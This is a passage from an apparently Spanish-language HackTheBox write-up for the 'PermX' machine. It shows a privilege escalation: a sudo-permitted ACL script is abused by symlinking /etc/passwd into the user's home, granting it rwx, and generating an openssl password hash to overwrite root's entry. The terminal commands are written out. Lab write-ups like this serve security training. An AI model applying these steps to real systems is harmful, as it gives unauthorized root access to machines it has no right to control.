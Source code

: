 Este script toma el usuario, los permisos y el archivo de destino como parámetros, y cambia los permisos de este archivo. El archivo de destino debe estar en `/home/mtz`.

Por tanto, se puede crear un enlace simbólico al archivo `/etc/passwd` y, con el script, darle acceso de lectura, escritura y ejecución al usuario `mtz`.

```terminal
mtz@permx:~$ ln -s /etc/passwd passwd
mtz@permx:~$ ls -l
drwxrwxrwx 1 mtz mtz 11 Nov 8 02:16 passwd -> /etc/passwd
mtz@permx:~$ sudo /opt/acl.sh mtz rwx /home/mtz/passwd

mtz@permx:~$ nano passwd
```

![](/assets/img/htb-writeup-permx/permx11.png)

De esta forma, se puede crear un hash de una contraseña y asignárselo al usuario `root` en el enlace simbólico.

```terminal
mtz@permx:~$ openssl passwd
Password: 123456
Verifying - Password: 123456
$1$lJHSEER5$QlDf0Ekb7Ju6.5gwLiNP91

mtz@permx:~$ nano passwd
```
